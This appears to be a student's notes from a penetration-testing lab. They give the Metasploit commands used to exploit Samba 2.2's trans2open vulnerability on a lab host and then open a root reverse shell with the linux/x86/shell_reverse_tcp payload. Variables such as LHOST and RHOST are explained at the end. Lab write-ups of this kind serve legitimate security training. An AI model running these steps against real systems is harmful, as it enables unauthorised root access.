

- Will going to run MetaSploit (i.e. Will Use Ctrl + c to stop the exceution So keep in mind not to use Ctrl + Z Cuz it will close the Metasploit Framework)
- But before that will use searchsploit for samba 2.2 as we have noticed trans2open showed up and it meet the criteria as well
and the mentor thinks it's the winner and will try to exploit it.
- Now will open the MetaSploit and search for trans2open in it
command : msfconsole
command : search samba
- As a result we got the list of OS but we are good Enumerator's , Good Investogator's , Researcher's , Information Gather's
- We could have saw Vily - Nily saw 139 and never looked at any other ports.
command: use 1
command: options
command: set RHOSTS 192.168.142.129
command: options
command: show target's
command: run/exploit
- The code will run and die as there is issue with the Payload so will run again the options command
and Metasploit will give us the payload options this time.
- As we can see we have been ruuning staged Payload.
So how to pick/select a Payload ??
command : set payload linux/x86 PRESS tab to see the options
command: set payload linux/x86/shell_reverse_tcp
which is a Non_staged Payload.
command: run
Hurray ^_^ we have successfully rooted the machine and root is the commandor of the System.

In Metasploit, LHOST, RHOST and SRVHOST are some of the most commonly used variable names.
LHOST refers to the IP of your machine, which is usually used to create a reverse connection to your machine after the attack succeeds.
RHOST refers to the IP address of the target host.
And SRVHOST is where the module will connect to download additional payload elements.